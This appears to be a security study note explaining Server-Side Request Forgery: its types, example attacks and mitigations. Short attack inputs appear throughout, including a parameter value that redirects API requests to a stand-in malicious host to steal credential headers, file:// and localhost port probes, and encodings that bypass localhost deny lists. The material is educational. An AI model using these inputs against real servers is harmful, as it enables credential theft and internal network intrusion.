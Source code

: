 # Server-Side Request Forgery

[![ssrfqi](../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![testingforssrf](../../../_badges/owasp/testingforssrf.svg)](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/19-Testing_for_Server-Side_Request_Forgery)
[![server_side_request_forgery](../../../_badges/poat/server_side_request_forgery.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

<div class="row row-cols-md-2"><div>

Server-Side Request Forgery (**SSRF**) is possible when a server "A" is making a request to a server "B" while creating the request using input that can be injected by the user.

It could be 

* a website using an internal/external API
* a website using resources located on another machine
* ...

There are two kind of SSRF

* **Regular/in-band SSRF**: the client will see the result
* **Blind/out-band SSRF**: nothing is returned to the client
  * You can use [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client)
  * You can use [requestbin](https://requestbin.com/)
</div><div>

It uses for a hacker are

* mapping an internal network (ports/...)
* stealing API credentials
* stealing files
* ...

A vulnerable entrypoint to this attack could be

* an URL <small>(is there a route/path/partial path looking like an API call?)</small>
* a form <small>(a normal field such as a form in which we need to pick an avatar in a list of images, an hidden field...)</small>
* a script
* a header
* ...
</div></div>

<hr class="sep-both">

## Some examples

<div class="row row-cols-md-2"><div>

**Access another untended path** ✂<br> `a?api=path` $\to$ `b/path`

In that case, you could guess that the first server A is mapping the value given to `api` to the server b. You may try to inject the path, and see if you can access other API routes.

**Phishing** 🎣<br> `a?url=some_url` $\to$ `a?url=malicious_url`

An **open redirect** endpoint is redirecting every user to another URL. For instance, in mails, tools such as HubSpot, replace every link in a mail with another one that will redirect to the original one, but record that the user opened the link at XXX, so that the company will understand their users behaviors. Well, if a website doing this redirect do not check the URL the user is redirected to, then a hacker may be able to use a trusted website (a trusted URL) to redirect targets (fishes 🐟) to a malicious website.

</div><div>

**Steal API credentials** 🗝️<br> `a?api=xxx&r=path` $\to$ `xxx.b/path`

For instance, a website is making requests to multiple APIs according to what the user wants. Ex: an API for Pokémon, and another for foods. Let's say, for food, the request will be made to `foods.thebestapi.com`, and for Pokémon, il will be `pokemon.thebestapi.com`. At first glance, the developer might think that's as we are always calling a subdomain of `thebestapi.com`, it's "safe". But, a hacker may use a trick like giving the following value `api=malicious_website.com&ignore=&r=path`. If so, the request will be made to `malicious_website.com?ignore=thebestapi.com/path`, as we gave the following value `malicious_website.com&ignore=` to `api`. The goal is stealing the API keys stored in the headers.

**Mapping ports/services** 🗺️

You could enter a URL such as `http://localhost:22` to test if the port `22` is open. You could also make the server call `http://ifconfig.pro/` to get some information (IP, DNS...).

**Steal files** 💰

You might be able to steal files too, using URLs such as `file://some/file/on/the/target`.
</div></div>

<hr class="sep-both">

## Mitigations

<div class="row row-cols-md-2"><div>

**Allow List/Whitelist**

It's usually the better way. But, if there is condition is something like `URL is starting with https://example.com`, then it can be easily bypassed with `https://example.com.malicious.website`.

**Others**

* Check that the resource type is what was expected
* ...

</div><div>

**Deny list/Blacklist**

You may allow every IP aside from some such as localhost (127.0.0.1), or 169.254.169.254 in cloud environment, but there is usually a lot of way to bypass such filters. For instance, `0`, `00`, `000[...]0`, `0.0.0.0`, `127.1` (IP shortening), `2130706433` (decimal), `017700000001` (octal) and many more such as [127.0.0.1.nip.io](http://127.0.0.1.nip.io)/[localtest.me](http://localtest.me) are all resolving to `127.0.0.1`.
</div></div>